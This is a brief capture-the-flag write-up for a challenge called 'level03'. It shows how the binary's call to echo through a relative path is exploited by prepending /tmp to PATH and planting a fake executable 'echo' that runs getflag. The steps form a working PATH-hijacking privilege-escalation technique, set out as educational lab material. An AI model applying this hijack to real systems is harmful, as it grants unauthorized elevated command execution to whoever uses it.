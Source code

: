 decompiled binary or $strings level03 shows that the command /usr/bin/env echo "Exploit me" is run inside the program
we can take advantage of the non absolute path to run another command like getflag

1) add /tmp to $PATH with : $export PATH=/tmp:$PATH

2) place a fake echo containing getflag in /tmp : $echo "getflag" > /tmp/echo

3) add execution rights : $chmod +x /tmp/echo

4) execute ./level03

getflag executed from /tmp gives the flag
